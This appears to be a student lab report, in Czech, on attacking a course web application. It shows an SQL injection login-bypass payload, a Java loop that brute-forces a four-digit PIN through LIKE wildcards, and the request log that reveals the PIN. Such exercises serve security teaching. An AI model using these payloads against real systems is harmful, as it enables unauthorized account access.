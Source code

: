 # REPORT - moravja8


## Prolomení login screen a zijštění username
**POST body:** "username= ' OR 1 = 1 AND username like '%moravja8%' OR '&password="
**Response:** <br />
    ```<pre><code><h2>Welcome <font color="green">rux6j_moravja8</font>, enter your four digit PIN number</h2><form id="pin" action="index.php" method="post"><input type="text" maxlength="4" name="pin" placeholder="_ _ _ _" required ><input type="submit" value="Verify"></form><a id="logout" href="index.php?logout">Logout</a></code></pre>```

## Zjištění pinu
**Postup:** pomocí wildcardů v sql injection lze pin bruteforcovat.  
**Kód:**

        for (int i = 0; i < 4; i++) {
            for (int j = 0; j < 10; j++) {
                String pin = String.valueOf(j);
                switch (i){
                    case 0: 
                        pin = pin + "___";
                        break;
                    case 1:
                        pin = "_" + pin + "__";
                        break;
                    case 2:
                        pin = "__" + pin + "_";
                        break;
                    case 3:
                        pin = "___" + pin;
                        break;
                    default:
                        throw new Exception("Bad state");    
                }
                main.sendPost(APP_URL, "username= ' OR 1 = 1 AND username = 'rux6j_moravja8' AND pin like '" + pin + "' OR '&password=");
            }
        }
**Response** <br />
Pozitivní odpovědi ve formátu "Welcome rux6j_moravja8, enter your four digit PIN number" přišly na následující requesty:

Sending 'POST' request to URL : https://kbe.felk.cvut.cz/ <br />
Post parameters : username= ' OR 1 = 1 AND username = 'rux6j_moravja8' AND pin like '5___' OR '&password=<br />
Post parameters : username= ' OR 1 = 1 AND username = 'rux6j_moravja8' AND pin like '_5\__' OR '&password=<br />
Post parameters : username= ' OR 1 = 1 AND username = 'rux6j_moravja8' AND pin like '__1\_' OR '&password=<br />
Post parameters : username= ' OR 1 = 1 AND username = 'rux6j_moravja8' AND pin like '___7' OR '&password=<br />

**Ověření pinu:**<br />
main.sendPost(APP_URL, "username= ' OR 1 = 1 AND username = 'rux6j_moravja8' AND pin like '5517' OR '&password=");<br />


